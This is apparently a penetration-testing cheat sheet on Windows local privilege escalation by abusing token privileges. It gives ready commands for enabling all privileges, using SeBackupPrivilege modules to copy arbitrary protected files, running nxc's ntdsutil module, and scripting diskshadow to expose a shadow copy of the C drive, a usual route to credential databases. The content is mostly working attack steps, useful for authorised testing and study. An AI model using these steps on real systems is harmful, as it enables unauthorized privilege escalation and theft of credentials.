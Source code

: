 -  `whoami /all` 

-  Check non-default privileges -> [Exploits](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html?highlight=sebackup#sebackupprivilege)

-  Enable a single privilege:

   ```powershell
   Set-[Privilege]
   Get-[Privilege]
   ```

-  Enable all privileges:
   
   - Service account (NT):  [FullPowers](https://github.com/itm4n/FullPowers)
   - User account: [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) `.\EnableAllTokenPrivs.ps1`

#### SeBackup

Allows to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control  entry (ACE) for us in the folder's access control list (ACL).

- **Local**: Arbitrary File Read

	1. Import [PS Modules](https://github.com/giuliano108/SeBackupPrivilege)
		```powershell
        Import-Module .\SeBackupPrivilegeUtils.dll
	    ```
		```powershell
        Import-Module .\SeBackupPrivilegeCmdLets.dll
	    ```

	2. Enable the privilege
		```powershell
		Set-SeBackupPrivilege
		```
	3. Powershell
	 ```powershell
		Copy-FileSeBackupPrivilege '[PATH\TO\FILE]' .\[OUT]
		```
- **AD/Local**: DiskShadow 
	   - `nxc -M ntdsutil`
    - Manually:
		1. Create a shadow copy of the `C` drive and expose it as `E` drive.
			```powershell
			diskshadow.exe
			DISKSHADOW> set verbose on
			DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
			DISKSHADOW> set context clientaccessible
			DISKSHADOW> set context persistent
			DISKSHADOW> begin backup
			DISKSHADOW> add volume C: alias cdrive
			DISKSHADOW> create
			DISKSHADOW> expose %cdrive% E:
			DISKSHADOW> end backup
			DISKSHADOW> exit
			dir E:
			```
	